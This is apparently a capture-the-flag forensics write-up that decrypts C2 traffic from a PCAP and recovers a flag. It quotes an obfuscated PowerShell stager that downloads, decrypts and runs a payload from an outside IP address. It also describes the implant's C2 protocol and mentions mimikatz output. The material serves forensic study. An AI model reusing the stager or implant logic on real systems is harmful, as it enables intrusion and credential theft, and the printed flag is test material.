


# Interstellar C2

Category: Forensics
Difficulty: hard
Points: 1000

************Category************: Forensics

****************Points:**************** 1000

************************Difficulty:************************ hard

## Description

We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?

## Walkthrough

### File Analysis

When dealing with PCAP, specifically C2 related stuff, the first thing I do is open the file in Wireshark and select ‘Export Objects —> HTTP’. This shows all the HTTP packets in the capture:



Two octet-streams, one html file with a different name, and the rest all have the same name, giving strooong c2 energy. First things first, let’s look at the executables, we can export them both by using the ‘save’ option in the Export HTTP objects window. 

********vn84.ps1:********

wohooo a powershell encrypted script. Alright, to quickly parse it, I use a Linux VM that has pwsh installed. 

```python
.("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"
```

 

I’m not going to go deep into the deobfuscation, because it seems pretty obvious. The script calls for downloading the file ‘**94974f08-5853-41ab-938a-ae1bd86d8e51**’, which is the second executable file in the pcap. Then, it sets a Key and IV and decrypts the file into tmp7102591.exe. Our first task is to decrypt this specific file to be able to reverse it, and get more information. The Key and IV are not obfuscated, so we can quickly decrypt it in Python:

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

key = bytes([0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0])
iv = bytes([0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1])

with open('94974f08-5853-41ab-938a-ae1bd86d8e51','rb') as f:
	enc_data = f.read()

cipher = AES.new(key,AES.MODE_CBC,iv)
dec = unpad(cipher.decrypt(enc_data),16)

with open('tmp7102591.exe','wb') as of:
	of.write(dec)
```

Back to the working directory, executing file on the decrypted executable returns **Intel 80386 Mono/.Net assembly.** This means we can unpack it with ilspycmd and read the source code. 

```python
mkdir tmp7102591
ilspycmd -o tmp7102591 -p tmp7102591.exe
```

Now, we need to understand the mechanism of the executable before going any further.  

### 2. tmp7102591.exe

There is only one file Program.cs, which should be enough to understand the mechanism. There are two internal classes to the public class Program: 

- UrlGen
- ImgGen

The function **Main** calls **Sharp** (of course…) which initiates the whole thing by calling the function ****************primer.**************** 

Function primer does a bunch of things, and eventually runs **ImplantCore,** which I believe, is the heart of the C2 channel. 

1. ******************************Primer******************************

This is a modified version of the code, basically summarizes the key points of the function:

 

```python
key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc="
text3="http://64.226.84.200:8080"
text5 = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c"
enc = GetWebRequest(Encryption(key, un)).DownloadString(text5)
text2 = Decryption(key, enc)

Regex val = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
Match val2 = val.Match(text2);
string randomURI = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("URLS10484390243(.*)34209348401SLRU");
val2 = val.Match(text2);
string stringURLS = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("KILLDATE1665(.*)5661ETADLLIK");
val2 = val.Match(text2);
string killDate = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("SLEEP98001(.*)10089PEELS");
val2 = val.Match(text2);
string sleep = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("JITTER2025(.*)5202RETTIJ");
val2 = val.Match(text2);
string jitter = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
val2 = val.Match(text2);
string key2 = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("IMGS19459394(.*)49395491SGMI");
val2 = val.Match(text2);
string stringIMGS = ((object)val2.get_Groups().get_Item(1)).ToString()

ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter)
```

Basically, it encrypts un (which is just a bunch of environment parameters) and downloads text5. 

**Text5** is actually the packet that has a different name from the others (**Anni?Theda=Merrilee**). 

After decrypting **text5**, it performs a bunch of regex queries and to initialise all the variables necessary for the channel. The  **********************Decryption********************** function ********************************************is pretty basic AES:

```python
array = Convert.FromBase64String(enc)
array2 = array[0:16]
val = CreateCam(key, Convert.ToBase64String(array2))
bytes = val.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16)
output = Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes).Trim(new char[1])))

```

In Python, this translates to:

```python
import base64
from Crypto.Cipher import AES 
from Crypto.Util.Padding import unpad
 
def decrypt(enc, key):
  enc = base64.b64decode(enc)
  iv = enc[0:16]
  key = base64.b64decode(key)
  cipher = AES.new(key, AES.MODE_CBC, iv)
  dec = cipher.decrypt(enc[16:])
  return dec[:-16]
```

Once all the variables are initialised, **primer** calls **ImplantCore:**

1. **ImplantCore**

The first thing it does is initiate the classes UrlGen and ImgGen. 

```python
UrlGen.Init(stringURLS, RandomURI, baseURL);
ImgGen.Init(stringIMGS);

```

Then it does a bunch of blablabla, but eventually calls UrlGen.GenerateUrl() [which creates a url at random], and decrypts it. 

```python
cmd = GetWebRequest(null).DownloadString(UrlGen.GenerateUrl());
text = Decryption(Key, cmd).Replace("\0", string.Empty);
```

The decrypted text is then parsed. 

If the decrypted text starts with ‘multicmd’ it:
- replaces the value ‘**multicmd**’  with ‘’
-  splits it at string "**!d-3dion@LD!-d**”. 
- iterates on each string on the new splitted array and checks if it matches some particular string, like ‘loadmodule, ‘run-dll-background’, ‘run-exe-background’ … depending on the value it will call different functions: 

- Assembly.load
- rAsm
- Exec

1. **UrlGen and ImgGen**

UrlGen.GenerateUrl() just creates a random url from the parameters it is initialised with. Nothing crazy. 

**ImgGen.GetImgData**() is a bit more complicated. What happens is that, it takes a random value in the ‘stringIMGS’ array, and then adds a command to the file. But in between, it adds a ‘random’ string, based on the length of the encrypted array. 

```python
num = 1500
s = random.choice(_newImgs)
array = base64.b64decode(s)
random_string = "...................@..........................Tyscf"
random_bytes = random.sample(random_string,num-len(array)))
outval = array + random_bytes + cmdoutput
```

The actual ‘random’ sampling stuff doesn’t matter, as long as we can calculate the length of the array in place.  

## Decryption

We can start by decrypting the ‘primer file’, and get the parameters needed to be able to parse the rest of the data. 

```python
import base64
from Crypto.Cipher import AES 
from Crypto.Util.Padding import unpad

def parse_file(fname):
	with open(fname,'rb') as inf:
		data = inf.read()
	return data

def decrypt(enc, key):
  enc = base64.b64decode(enc)
  iv = enc[0:16]
  key = base64.b64decode(key)
  cipher = AES.new(key, AES.MODE_CBC, iv)
  dec = cipher.decrypt(enc[16:])
  return base64.b64decode(dec[:-16])

key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc="
primer_file = 'Anni%3fTheda=Merrilee%3fc'
enc_primer = parse_file(primer_file)
dec_primer= decrypt(enc_primer, key)
```

Next, we need to parse the primer file, by mimicking the Regex operations done. In python:

```python
import re 

def parse_primer(primer_val):
	val2 = re.findall(b"RANDOMURI19901(.*)10991IRUMODNAR", primer_val)
	val3 = re.findall(b"URLS10484390243(.*)34209348401SLRU", primer_val)
	val4 = re.findall(b"KILLDATE1665(.*)5661ETADLLIK", primer_val)
	val5 = re.findall(b"SLEEP98001(.*)10089PEELS", primer_val)
	val6 = re.findall(b"JITTER2025(.*)5202RETTIJ", primer_val)
	val7 = re.findall(b"NEWKEY8839394(.*)4939388YEKWEN", primer_val)
	val8 = re.findall(b"IMGS19459394(.*)49395491SGMI", primer_val)
	randomURI = val2[0]
	stringURLS = val3[0]
	killDate = val4[0]
	sleep = val5[0]
	jitter = val6[0]
	key2 = val7[0]
	stringIMGS = val8[0]
	return randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter

randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter = parse_primer(dec_primer)
```

The most import stuff we had to recover was ********key2******** and **stringIMGS**. At this point, we can start looking at the rest of the files.

**************Images**************

To parse image files, we can use the following functions. First, we parse the stringIMGS value, so that we can efficiently remove the random strings. Then, we have to create a different decryption function for images, as they are not base64 encoded. Finally, we process the whole thing, and we have to **uncompress** the data, because all data that passes through the **Encryption** function, which all images do, are compressed.

```python
def parse_image_strings(stringIMGS):
	_re = re.compile(b"(?<=\")[^\"]*(?=\")|[^\" ]+")
	_newImgs = re.findall(_re,stringIMGS.replace(b',',b''))
	_newImgs = [i for i in _newImgs if i!=b'']
	_newImgs = [base64.b64decode(i) for i in _newImgs]
	return _newImgs

def decrypt_images(enc, key):
  iv = enc[0:16]
  key = base64.b64decode(key)
  cipher = AES.new(key, AES.MODE_CBC, iv)
  dec = cipher.decrypt(enc[16:])
  return dec

def parse_imagefile(data,key,imgs_data):
	indexes = len([i for i in imgs_data if i in data][0])
	len_random_string = 1500 - indexes
	enc_data = data[indexes+len_random_string:]
	dec_data = decrypt_images(enc_data,key)
	uncompressed = gzip.decompress(dec_data)
	return uncompressed

```

****************Other files:****************

To parse the rest of the files, I basically re-wrote the whole Implant Core function in my own words:

```python
def decrypt_inf(encf,key2):
	cmds = []
	text = decrypt(encf, key2)
	if text.lower().startswith(b'multicmd'):
		text2 = text.replace(b'multicmd',b'')
		array2 = text2.split(b"!d-3dion@LD!-d")
		array2 = [i for i in array2 if i != b'']
		for val in array2:
			taskid = val[0:5]
			cmd = val[5:]
			if cmd.lower().startswith(b'exit'):
				print("its an exit")
			if cmd.lower().startswith(b'loadmodule'):
				s = cmd.replace(b'loadmodule',b'')
				deced = base64.b64decode(s)
				ext = filetype.guess(deced).extension
				#Exec(stringBuilder.ToString(), taskid, key)
				fname = 'decrypted/module_' + taskid.decode() + '.' + str(ext)
				with open(fname,'wb') as of:
					of.write(deced)
			if cmd.lower().startswith(b'run-dll-background') or cmd.lower().startswith(b'run-exe-background'):
				#rAsm(cmd)
				s = cmd.replace(b'run-dll-background')
				deced = base64.b64decode(s)
				ext = filetype.guess(deced).extension
				fname = 'decrypted/background_exe' + taskid.decode() + '.' + str(ext)
				with open(fname,'wb') as of:
					of.write(deced)
	else:
		cmds.append(text)
	return cmds

```

Finally, we can remove the useless files, that contain no data, from our filelist and then iterate over each file and dump its contents to a ‘decrypted’ directory. I also added a ‘isBase64’ function, because sometimes the stuff is base64 encoded, sometimes it’s not…

```python
def isBase64(sb):
    try:
        if isinstance(sb, str):
                # If there's any unicode here, an exception will be thrown and the function will return false
                sb_bytes = bytes(sb, 'ascii')
        elif isinstance(sb, bytes):
                sb_bytes = sb
        else:
                raise ValueError("Argument must be string or bytes")
        return base64.b64encode(base64.b64decode(sb_bytes)) == sb_bytes
    except Exception:
            return False

import filetype
import os 
import gzip

fnames = os.listdir()
fnames.pop(fnames.index(primer_file))
bad = [b'<head', b'<body', b'STATUS 200\n', b'OK\n']
os.mkdir('decrypted')
good = []
for fn in fnames:
	encbuf = parse_file(fn)
	if not any(b in encbuf for b in bad):
		good.append(fn)

imgs_data = parse_image_strings(stringIMGS)
done = []
for fn in good:
	encbuf = parse_file(fn)
	if encbuf[0:4] == b'\x89PNG':
		out = parse_imagefile(encbuf,key2,imgs_data)
		if isBase64(out):
			out = (base64.b64decode(out))
		guess = filetype.guess(out)
		if not guess:
			ext = 'txt'
		else:
			ext = guess.extension
		with open('decrypted/' + fn + '.'+ ext, 'wb') as of:
			of.write(out)
	else:
		done.append(decrypt_inf(encbuf, key2))

```

## 4. Checking Files

On the output, there are five files that actually contain data:

a png, two text files and three executables.

**********************Text files:**********************

- output of a mimikatz command
- only contains ‘WM_POWERBROADCAST:GUID_MONITOR_POWER_ON:On’

************************Executables:************************

- ‘Core Service’ with md5 a4d14345817ba95cb8ab1ffb2140af0b, flagged by Microsoft in Virus Total as ‘VirTool:MSIL/PoshC2.C’
- PwrStatusTracker.dll - md5: f4702d36331c71df5568dbc5bc31deee  flagged by McAffee in Virus Total as ‘Artemis’
- SharpSploit.dll -md5: 4b580075b91a0c0fdacf2695c92d6839 flagged by Elastic as ‘Windows.Hacktool.Mimikatz’

Logically, if those Executables are being fully recognized, it’s unlikely they contain the flag, as the executable would have to be modified, and the hash wouldn’t match. 

********PNG file:******** 

- A screenshot of the User’s desktop, which… contains the flag!
    
    
    

**************Flag:************** HTB{h0w_c4N_y0U_s3e_p05H_c0mM4nd?}